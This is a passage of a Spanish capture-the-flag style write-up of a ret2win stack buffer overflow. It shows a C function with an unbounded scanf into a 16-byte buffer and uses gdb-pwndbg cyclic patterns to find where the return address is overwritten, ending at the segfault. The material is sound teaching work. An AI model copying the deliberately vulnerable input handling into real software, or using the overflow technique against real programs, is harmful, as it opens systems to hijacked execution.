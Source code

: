 ```c
void register_name()
{
    char buffer[16];

    printf("Name:\n");
    scanf("%s", buffer);
    printf("Hi there, %s\n", buffer);    
}
```

Vemos que se llama a la función `register_name()` que tiene una variable `buffer` y que se rellena con `scanf()`. También como apuntamos antes, hay una función `hacked()` a la que nunca se llama.

Parece ser que el *segmentation fault* puede ser debido a que `scanf` introduce más carácteres de los que permite *buffer*, probablemente sobreescribiendo la dirección de retorno de la función.

#### Explotación

Como vemos, al iniciar el programa, `main()` llama a `register_name()`, que pide un nombre, lo imprime y regresa. Sin embargo, podríamos tratar de sobreescribir la dirección de retorno de forma que `register_name()` no vuelva a name, sino que por ejemplo vuelva a `hacked()`.

Vamos a comenzar abriendo [[gdb]]-[[pwndbg]]:

```bash
gdb-pwndg ret2win
```

Podemos ver las unciones con:

```gdb
info functions
```
```gdb
[...]
0x08049182  hacked
0x080491ad  register_name
0x08049203  main
[...]
```

Ahora debemos ver a partir de que número de carácteres se empieza a sobreescribir la *return address*. Para ello, el propio plugin ([[pwndbg]]) incorpora una función interesante:

```gdb
cyclic 100
```
```gdb
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
```

Esto nos genera una secuencia de 100 carácteres en los que cada cuatro *a*, se intercala una letra. De esta forma podemos identificar cuándo se sobreescribe la *return address*.

```gdb
run
```
```ret2win
Name:
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
Hi there, aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa

Program received signal SIGSEGV, Segmentation fault.
```
